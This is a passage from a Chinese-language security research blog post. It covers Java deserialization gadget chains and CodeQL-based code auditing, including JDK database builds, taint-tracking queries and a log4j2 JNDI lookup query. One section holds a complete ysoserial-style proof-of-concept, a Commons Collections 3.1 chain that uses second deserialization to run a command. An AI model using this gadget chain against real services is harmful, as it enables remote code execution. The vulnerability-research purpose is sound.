    public static void setFieldValue(Object obj,String filename,Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(filename);
        field.setAccessible(true);
        field.set(obj,value);
    }

}
```



#### 二次反序列化



后面的sink点事通过二次反序列化实现的，但这个二次反序列化也有些鸡肋，因为二次反序列化的对象是成员变量的序列化结果，和一般的那些使用字节码数组或者base64存储序列化结果的二次反序列化不太一样，所以这里还是会被类似JEP290的过滤器过滤

既然也是一个create方法，那么前面的链子和刚才没有差别，只是在create方法这里变成了PrototypeFactory类，只是这个类是个内部类，需要用反射区调用构造方法控制iPrototype

poc如下，为了方便，把它放在了ysoserial下执行

```
package ysoserial.payloads;

import org.apache.commons.collections.Factory;
import org.apache.commons.collections.FastHashMap;
import org.apache.commons.collections.functors.FactoryTransformer;
import org.apache.commons.collections.map.DefaultedMap;
import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.util.JavaVersion;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

@SuppressWarnings({"rawtypes", "unchecked"})
@Dependencies({"commons-collections:commons-collections:3.1"})
public class CommonsCollectionsD3 extends PayloadRunner implements ObjectPayload<HashMap> {

    // Todo:二次反序列化，在其他序列化方式中还是有一定价值的
    public HashMap getObject(final String command) throws Exception {

        Object object = new CommonsCollections5().getObject(command);

        Class<?> factoryCls = Class.forName("org.apache.commons.collections.functors.PrototypeFactory$PrototypeSerializationFactory");
        Constructor<?> cons = factoryCls.getDeclaredConstructor(Serializable.class);
        cons.setAccessible(true);
        Factory factory = (Factory) cons.newInstance(object);
        FactoryTransformer transformer = new FactoryTransformer(factory);

        HashMap tmp = new HashMap();

        tmp.put("zZ", "diggid");
        DefaultedMap map  = (DefaultedMap) DefaultedMap.decorate(tmp, transformer);
        FastHashMap fasthm = new FastHashMap();
        fasthm.put("yy", "diggid");
        HashMap obj = new HashMap();
        obj.put("b", "b");
        obj.put(fasthm, "1");

        Object[] table = (Object[]) Reflections.getFieldValue(obj, "table");
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[2];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        Reflections.setAccessible(keyField);
        if (keyField.get(node) instanceof String){
            keyField.set(node, map);
        }

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("CCD3.bin"));
        objectOutputStream.writeObject(obj);

        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("CCD3.bin"));
        objectInputStream.readObject();
        return obj;
    }

    public static void main(final String[] args) throws Exception {
        new CommonsCollectionsD3().getObject("open -a Calculator");
    }
}
```

## JDK数据库生成

实现了几个项目可以发现，我们查询的内容必须是CodeQL database中的源码，对于一些jar包内的内容是无法查询的，也包括java自带的jar包，所以编译JDK的数据库也必不可少

openjdk源码：https://github.com/openjdk/jdk8u

我选择的是8u162，本机用的是MACOS

安装依赖插件

```
Xcode-select安装：安装命令 xcode-select –install（可以直接在AppStore里面下载）

进行x11链接，在终端输入3个命令中任意一个即可.

ln -s /usr/X11/include/X11 /usr/local/include/X11
ln -s /usr/local/X11/include/X11 /usr/include/X11
ln -s /usr/X11/include/X11 /usr/include/X11 

brew install mercurial
安装hg：brew install hg
安装freetype，安装命令：brew install freetype
安装GC 安装命令： brew install gcc49 据说安装往上的版本会报错
安装ccache提升编译速度 brew install ccache
安装ant 一般mac都会有这个环境，如果没有执行：brew install ant

如果是用hg clone下载的话，需要先执行get_source.sh获取源码，在configure进行配置

./configure  --with-freetype-include=/opt/homebrew/Cellar/freetype/2.12.1/include/freetype2 --with-freetype-lib=/opt/homebrew/Cellar/freetype/2.12.1/lib

make all
```

编译jdk8的话多多少少会有一些问题，jdk11的问题相对较少

其实也可以用ubuntu去生成，参考https://blog.csdn.net/mole_exp/article/details/122330521

我直接下载了两个编译好的CodeQL数据库

# 污点分析

在前面我们寻找对应的链子采用的是edges谓词的方法，其实网上大部分的师傅对于codeql的时候都采用了污点分析的方法

可以使用官方提供的`TaintTracking::Configuration`方法定义source和sink，至于中间是否是通的，这个后面使用CodeQL提供的`config.hasFlowPath(source, sink)`来帮我们处理

`TaintTracking::Configuration`其实继承自`DataFlow::Configuration`，然后扩展了`isAdditionalFlowStep`（可以重写这个谓词），注意到这里先调用了`this.isAdditionalTaintStep`，这就是我们可以继承后覆盖的代码，引入我们自己的额外边，同时它还有一个`defaultAdditionalTaintStep`，这是该污点自己对数据流进行的扩展

一个简单的`TrintTracking::Configuration`的demo

```
class VulConfig extends TaintTracking::Configuration {
  VulConfig() { this = "SqlInjectionConfig" }

  override predicate isSource(DataFlow::Node src) { src instanceof RemoteFlowSource }

  override predicate isSink(DataFlow::Node sink) {
    exists(Method method, MethodAccess call |
      method.hasName("query")
      and
      call.getMethod() = method and
      sink.asExpr() = call.getArgument(0)
    )
  }
}
```

可以看到主要是重写isSource和isSink谓词，还可以重写isAdditionnalFlowStep谓词，参数类型都是`DataFlow::Node`

最后通过hasFlowPath进行污点追踪，大致的思想和之前一样，都是定义sink和source点

```
from TainttrackLookup config , DataFlow::PathNode source, DataFlow::PathNode sink
where
    config.hasFlowPath(source, sink)
select sink.getNode(), source, sink, "unsafe lookup", source.getNode(), "this is user input"
```

在https://www.freebuf.com/articles/web/283795.html文中还有关于减少误报的方法

在codeql本身中也集成了很多脚本去分析漏洞

## 利用Codeql分析log4j2

下面是网上师傅对于log4j2审计的codeql代码

```
/**
 *@name Tainttrack Context lookup
 *@kind path-problem
 */
import java
import semmle.code.java.dataflow.FlowSources
import DataFlow::PathGraph
class Context extends  RefType{
    Context(){
        this.hasQualifiedName("javax.naming", "Context")
        or
        this.hasQualifiedName("javax.naming", "InitialContext")
        or
        this.hasQualifiedName("org.springframework.jndi", "JndiCallback")
        or 
        this.hasQualifiedName("org.springframework.jndi", "JndiTemplate")
        or
        this.hasQualifiedName("org.springframework.jndi", "JndiLocatorDelegate")
        or
        this.hasQualifiedName("org.apache.shiro.jndi", "JndiCallback")
        or
        this.getQualifiedName().matches("%JndiCallback")
        or
        this.getQualifiedName().matches("%JndiLocatorDelegate")
        or
        this.getQualifiedName().matches("%JndiTemplate")
    }
}
class Logger extends  RefType{
    Logger(){
        this.hasQualifiedName("org.apache.logging.log4j.spi", "AbstractLogger")
    }
}
class LoggerInput extends  Method {
    LoggerInput(){
        this.getDeclaringType() instanceof Logger and
        this.hasName("error") and this.getNumberOfParameters() = 1
    }
    Parameter getAnUntrustedParameter() { result = this.getParameter(0) }
}
predicate isLookup(Expr arg) {
    exists(MethodAccess ma |
        ma.getMethod().getName() = "lookup"
        and
        ma.getMethod().getDeclaringType() instanceof Context
        and
        arg = ma.getArgument(0)
    )
}
class TainttrackLookup  extends TaintTracking::Configuration 
{
    TainttrackLookup() { 
        this = "TainttrackLookup" 
    }

    override predicate isSource(DataFlow::Node source) {
        exists(LoggerInput LoggerMethod |
            source.asParameter() = LoggerMethod.getAnUntrustedParameter())
    }

    override predicate isAdditionalTaintStep(DataFlow::Node fromNode, DataFlow::Node toNode) {
        exists(MethodAccess ma,MethodAccess ma2 |
            ma.getMethod().getDeclaringType().hasQualifiedName("org.apache.logging.log4j.core.impl", "ReusableLogEventFactory") 
            and ma.getMethod().hasName("createEvent") and fromNode.asExpr()=ma.getArgument(5) and ma2.getMethod().getDeclaringType().hasQualifiedName("org.apache.logging.log4j.core.config", "LoggerConfig")  
            and ma2.getMethod().hasName("log") and ma2.getMethod().getNumberOfParameters() = 2 and toNode.asExpr()=ma2.getArgument(0)
                    )
      }
    override predicate isSink(DataFlow::Node sink) {
        exists(Expr arg |
            isLookup(arg)
            and
            sink.asExpr() = arg
        )
    }
} 
from TainttrackLookup config , DataFlow::PathNode source, DataFlow::PathNode sink
where
    config.hasFlowPath(source, sink)
select sink.getNode(), source, sink, "unsafe lookup", source.getNode(), "this is user input"
```

后面我单独用edges谓词写了一篇关于codeql分析log4j2的文章


总的来说，对于CodeQL进行代码审计的时候，我们一方面要弄清楚其语法，另一方面也是对不同漏洞的sink点在代码中的体现要有一个清楚的认知，比如说jndi注入的点，sql注入的点，这样才能使用codeql定位到我们想到的地方


参考链接：

https://www.jianshu.com/p/7986fbd82884

https://www.freebuf.com/sectool/343738.html

https://www.freebuf.com/articles/web/283795.html

https://www.secpulse.com/archives/180773.html

https://blog.sometimenaive.com/2020/05/21/find-fastjson-jndi-gadget-by-codeql-tainttracking/

https://www.geekby.site/2022/02/codeql%E5%9F%BA%E7%A1%80/#421-%E4%BA%94%E5%A4%A7%E7%B1%BB%E5%BA%93

https://xz.aliyun.com/t/7482#toc-8

https://blog.diggid.top/2022/04/30/%E4%BD%BF%E7%94%A8CodeQL-CHA%E8%B0%83%E7%94%A8%E5%9B%BE%E5%88%86%E6%9E%90%E5%AF%BB%E6%89%BE%E6%96%B0%E7%9A%84CC%E9%93%BE/

https://blog.csdn.net/mole_exp/article/details/122330521

https://xz.aliyun.com/t/7789#toc-2